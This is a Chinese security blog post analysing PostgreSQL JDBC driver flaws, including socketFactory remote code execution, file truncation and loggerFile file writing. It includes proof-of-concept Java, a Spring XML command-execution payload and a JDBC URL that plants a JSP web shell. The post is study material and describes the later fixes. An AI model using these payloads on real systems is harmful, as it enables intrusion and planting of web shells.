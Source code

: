 ```yaml
---
layout: post
title: PostGrasql
categories: [blog ]
tags: [Java,]
description: ""
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: shzqi
---
```


 

## 前言

```java
在冀信杯中就看到过这个漏洞，当时只是利用没看原理，直接打的远程xml命令执行，在后来的安洵杯也遇到了，只不过用的是另外的任意文件写入，特别来跟一下流程。
```

```java
JDBC java数据库连接，是Java语言中用来规范客户端如何访问数据库的应用程序接口，具体讲就是通过Java连接广泛数据库，并对表中数据执行增、删、改、查等操作的技术。
当程序中 JDBC 连接 URL 可控时，可能会造成安全问题。比较具有代表性的就是 JDBC 反序列化漏洞，是在于 mysql 数据库连接时产生的
```

​	

## 任意代码执行 socketFactory/socketFactoryArg

​	影响范围：

- REL9.4.1208 <= PostgreSQL <42.2.25
- 42.3.0 <= PostgreSQL < 42.3.2

这个漏洞主要产生的原因是，`org.postgresql.util.ObjectFactory` 里面调用了`instantiate` 方法

![image-20231224205642825](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224205642825.png)

大概意思就是对classname类名的String构造方法，赋值stringarg并进行初始化

`任意执行某个类的string构造方法`，因此只要找到一个符合这样条件的类即可

![image-20231224205955928](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224205955928.png)

传入的参数都是通过 `Properties info`来获得的，所以能直接反射修改:

#### 调用链子

```java
instantiate:62, ObjectFactory (org.postgresql.util)
getSocketFactory:39, SocketFactoryFactory (org.postgresql.core)
openConnectionImpl:184, ConnectionFactoryImpl (org.postgresql.core.v3)
openConnection:51, ConnectionFactory (org.postgresql.core)
<init>:225, PgConnection (org.postgresql.jdbc)
makeConnection:466, Driver (org.postgresql)
connect:265, Driver (org.postgresql)
getConnection:664, DriverManager (java.sql)
getConnection:270, DriverManager (java.sql)
```

### 漏洞利用

通过加载远程恶意XML实现RCE，先看一个案例

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class cve2022 {
    public static void main(String[] args) throws SQLException, SQLException {
        String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
        String socketFactoryArg = "http://127.0.0.1:9999/poc.xml";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?socketFactory="+socketFactoryClass+ "&socketFactoryArg="+socketFactoryArg;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<!--    普通方式创建类-->
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
           
            <value>calc.exe</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

![image-20231224212159159](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224212159159.png)

关键的地方在`org.postgresql.Driver#connect` ,这里通过parseURL对传入的url进行了解析存入了prpos也就是info中

![image-20231224213235810](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224213235810.png)

进入导致传入`ObjectFactory ` 的形参都是可控的，这里初始化的是

`org.springframework.context.support.ClassPathXmlApplicationContext`

![image-20231224213416888](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224213416888.png)

![image-20231224213602623](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224213602623.png)

这两个类都可以执行xml代码

![image-20231224220156639](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224220156639.png)

```java
是通过远程加载 bean 配置文件，利用初始化 ProcessImpl 类的 bean 的过程，将任意字符串作为命令行执行内容注入，达到任意命令行命令执行的效果,也就是远程加载xml文件进行解析。
```

#### 调用链子

![image-20231224220724248](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224220724248.png)

## 清空指定的任意文件

```java
 jdbcUrl="jdbc:postgresql://127.0.0.1:5432/test/?socketFactory=java.io.FileOutputStream&socketFactoryArg=test.txt";
```

就可以把任意的test文件进行清空，其实还是利用了实例化类的初始化参数

```java
FileOutputStream fileOutputStream=new FileOutputStream("test.txt");
```

偷张图，这个 图描述的非常直观

![image-20231226174331297](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231226174331297.png)

## 任意文件写入 loggerLevel/loggerFile

影响范围：

- 42.1.0 <= PostgreSQL <42.3.3

执行的命令

```java
jdbcUrl="jdbc:postgresql://127.0.0.1:5432/test?loggerLevel=DEBUG&loggerFile=./test.jsp&<%Runtime.getRuntime().exec(request.getParameter(\"i\"));%>\n";
```

![image-20231226174857263](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231226174857263.png)

在`setupLoggerFromProperties `中设置日志的一些前提要求，这里props是数组解析我们传入的参数，首先 获得LOGGER_LEVEL不为空，否则进不去执行语句

![image-20231226180337611](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231226180337611.png)

然后`driverLogFile`获得存储日志的位置

![image-20231226180508526](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231226180508526.png)

最后进入关键的LOGGER.log方法进行存储

![image-20231226180552229](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231226180552229.png)

学过jsp的应该知道，jsp会执行<%%>当作java片段，前面的不会影响的

![image-20231226180658595](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231226180658595.png)

犹豫对路径没有一点的过滤，所以可以跨目录进行生成

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class cve202221724 {
    public static void main(String[] args) throws SQLException {
        String loggerLevel = "debug";
        String loggerFile = "test.txt";
        String shellContent="test";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test?loggerLevel="+loggerLevel+"&loggerFile="+loggerFile+ "&"+shellContent;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

和任意代码执行的出口不一样

![image-20231226180806337](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231226180806337.png)

## 在高版本中对这些现象进行了修复

高版本规定了，反射的类，必须是javax.net.SocketFactory的子类，否则就抛出异常

![image-20231226181352838](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231226181352838.png)

对比一下发现把this.setupLoggerFromProperties(props);删除掉了（也就是说不能指定存储文件的位置了）

![image-20231226181804490](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231226181804490.png)
